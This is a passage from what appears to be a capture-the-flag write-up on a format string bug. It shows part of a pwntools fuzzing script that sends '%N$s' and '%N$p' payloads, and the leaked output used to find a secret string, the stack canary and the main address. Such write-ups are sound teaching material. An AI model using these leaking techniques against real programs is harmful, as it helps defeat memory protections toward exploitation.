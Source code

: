 ```python
        p.sendlineafter(b': ', '%{}$s'.format(i).encode())
        result = p.recv().split(b' ')
        result = result[1].split(b',')
        leak_char = result[0].ljust(8,b"\x00")
        print(str(i) + ': ' + str(leak_char).strip())
        p.close()
    except EOFError:
        pass

```

we can get the secret message
```bash
$ python fuzz.py 
1: b'Hi\x00\x00\x00\x00\x00\x00'
2: b'(null)\x00\x00'
3: b'(null)\x00\x00'
4: b'\x00\x00\x00\x00\x00\x00\x00\x00'
5: b'\x8b\x00\x00\x00\x00\x00\x00\x00'
6: b'YOKO\x00\x00\x00\x00'
7: b'(null)\x00\x00'
8: b'(null)\x00\x00'
9: b'\x00\x00\x00\x00\x00\x00\x00\x00'
10: b'\x00\x00\x00\x00\x00\x00\x00\x00'
11: b'(null)\x00\x00'
12: b'(null)\x00\x00'
13: b'\x00\x00\x00\x00\x00\x00\x00\x00'
14: b'\x00\x00\x00\x00\x00\x00\x00\x00'
15: b'\x89\xc7\xe8\x9fs\x01\x00\x00'
16: b'(null)\x00\x00'
17: b'\xf3\x0f\x1e\xfaUH\x89\xe5H\x83\xec@dH\x8b\x04%('
18: b'\x00\x00\x00\x00\x00\x00\x00\x00'
19: b'\x80\x11\xa1j\xfe\x7f\x00\x00'
20: b'\x80\x01k\xcc\xfe\x7f\x00\x00'
21: b'\x00\x00\x00\x00\x00\x00\x00\x00'
22: b'(null)\x00\x00'
23: b'\xc5\x11\xd6\xb9\xff\x7f\x00\x00'
24: b'\x80\xa2\x1a\xd5jU\x00\x00'
```
its on %6$s

changing from %s to %p we can try to find the canary values and main address

```python
$ python fuzz.py 
1: b'0x7ffc4a4aa570'
2: b'(nil)\x00\x00\x00'
3: b'(nil)\x00\x00\x00'
4: b'0x4\x00\x00\x00\x00\x00'
5: b'0x7f01191c0aa0'
6: b'0x7ffc7ecb1fae'
7: b'(nil)\x00\x00\x00'
8: b'(nil)\x00\x00\x00'
9: b'0x2439250000000000'
10: b'0x7024\x00\x00'
11: b'(nil)\x00\x00\x00'
12: b'(nil)\x00\x00\x00'
13: b'0xce7df4b5024c6b00'
14: b'0x1\x00\x00\x00\x00\x00'
15: b'0x7fc39c62a6ca'
16: b'(nil)\x00\x00\x00'
17: b'0x55817ada0374'
18: b'0x100000000'
19: b'0x7ffeb3a272a8'
20: b'0x7ffe4b955088'
```